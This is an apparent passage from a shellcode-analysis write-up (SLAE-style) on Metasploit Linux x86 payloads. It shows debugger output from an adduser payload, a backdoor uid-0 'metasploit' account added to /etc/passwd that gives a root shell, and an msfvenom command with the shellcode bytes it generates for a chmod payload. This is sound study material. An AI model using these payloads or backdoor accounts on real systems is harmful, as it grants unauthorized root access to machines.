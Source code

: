 ```
   0xbffff684:	int    0x80
=> 0xbffff686:	push   0x1
   0xbffff688:	pop    eax
   0xbffff689:	int    0x80
   0xbffff68b:	add    BYTE PTR [edx],ch
   0xbffff68d:	idiv   bh
[------------------------------------stack-------------------------------------]
0000| 0xbffff5fc ("/etc//passwd")
0004| 0xbffff600 ("//passwd")
0008| 0xbffff604 ("sswd")
0012| 0xbffff608 --> 0x0
0016| 0xbffff60c --> 0x4005ea (<main+157>:	mov    eax,0x0)
0020| 0xbffff610 --> 0x6f27a329
0024| 0xbffff614 --> 0xa1
0028| 0xbffff618 --> 0xb7ea8339 (<intel_check_word+9>:	add    esi,0x121cc7)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0xbffff686 in ?? ()
gdb-peda$
```

Lastly, `0x1` is pushed and popped into `$eax` and called with `int 0x80` to cleanly exit the process.

Upon inspection of `/etc/passwd` after the shellcode exits, we can see the user account was created:

```shell_session
# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

*** excess content redacted ***

sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

Switching to the `metasploit` user also works and provides a root shell:

```shell_session
$ su metasploit
Password:
# whoami
root
#
```

Analysis of linux/x86/chmod
---------------------------
For the purpose of testing this payload, I set the `FILE` option to `/tmp/slae` and the mode to be applied as `0777`:

```shell_session
$ msfvenom -p linux/x86/chmod FILE=/tmp/slae MODE=0777 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 34 bytes
Final size of c file: 169 bytes
unsigned char buf[] =
"\x99\x6a\x0f\x58\x52\xe8\x0a\x00\x00\x00\x2f\x74\x6d\x70\x2f"
"\x73\x6c\x61\x65\x00\x5b\x68\xff\x01\x00\x00\x59\xcd\x80\x6a"
"\x01\x58\xcd\x80";
```
